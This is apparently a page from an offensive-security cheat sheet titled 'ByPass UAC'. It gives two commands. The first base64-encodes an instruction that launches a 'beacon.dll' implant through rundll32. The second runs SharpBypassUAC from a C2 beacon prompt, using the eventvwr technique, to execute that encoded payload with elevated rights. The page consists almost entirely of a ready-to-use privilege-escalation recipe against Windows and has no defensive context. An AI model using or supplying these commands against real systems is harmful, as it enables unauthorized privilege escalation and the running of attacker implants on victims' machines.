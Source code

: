 # 🟢 ByPass UAC

```
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64
```

{% code overflow="wrap" %}
```
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==
```
{% endcode %}
